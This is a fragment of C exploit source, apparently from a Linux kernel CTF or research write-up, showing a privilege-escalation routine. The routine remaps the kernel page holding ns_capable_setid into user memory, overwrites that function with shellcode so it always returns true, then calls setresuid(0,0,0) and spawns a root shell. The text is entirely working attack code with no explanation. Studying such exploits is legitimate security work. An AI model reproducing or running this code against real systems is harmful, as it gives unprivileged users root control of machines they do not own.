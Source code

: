 ```c
    arbitrary_write_by_pipe((struct page*) (stack_page + 0x40 * 3), rop, 0xff0);
}

void privilege_escalation_by_usma(void)
{
    #define NS_CAPABLE_SETID 0xffffffff810fd2a0

    char *kcode_map, *kcode_func;
    size_t dst_paddr, dst_vaddr, *rop, idx = 0;

    /* resolving some vaddr */
    pgd_vaddr_resolve();

    kcode_map = mmap((void*) 0x114514000, 0x2000, PROT_READ | PROT_WRITE, 
                     MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    if (!kcode_map) {
        err_exit("FAILED to create mmap area!");
    }

    /* because of lazy allocation, we need to write it manually */
    for (int i = 0; i < 8; i++) {
        kcode_map[i] = "arttnba3"[i];
        kcode_map[i + 0x1000] = "arttnba3"[i];
    }

    /* overwrite kernel code seg to exec shellcode directly :) */
    dst_vaddr = NS_CAPABLE_SETID + kernel_offset;
    printf("\033[34m\033[1m[*] vaddr of ns_capable_setid is: \033[0m0x%lx\n",
           dst_vaddr);

    dst_paddr = vaddr_resolve_for_3_level(pgd_addr, dst_vaddr);
    dst_paddr += 0x1000 * PTE_ENTRY(dst_vaddr);

    printf("\033[32m\033[1m[+] Got ns_capable_setid's phys addr: \033[0m"
           "0x%lx\n\n", dst_paddr);

    /* remapping to our mmap area */
    vaddr_remapping(pgd_addr, 0x114514000, dst_paddr);
    vaddr_remapping(pgd_addr, 0x114514000 + 0x1000, dst_paddr + 0x1000);

    /* overwrite kernel code segment directly */

    puts("[*] Start overwriting kernel code segment...");

    /**
     * The setresuid() check for user's permission by ns_capable_setid(),
     * so we can just patch it to let it always return true :)
     */
    memset(kcode_map + (NS_CAPABLE_SETID & 0xfff), '\x90', 0x40); /* nop */
    memcpy(kcode_map + (NS_CAPABLE_SETID & 0xfff) + 0x40, 
            "\xf3\x0f\x1e\xfa"  /* endbr64 */
            "H\xc7\xc0\x01\x00\x00\x00"  /* mov rax, 1 */
            "\xc3", /* ret */
            12);

    /* get root now :) */
    puts("[*] trigger evil ns_capable_setid() in setresuid()...\n");

    sleep(5);

    setresuid(0, 0, 0);
    get_root_shell();
}
```
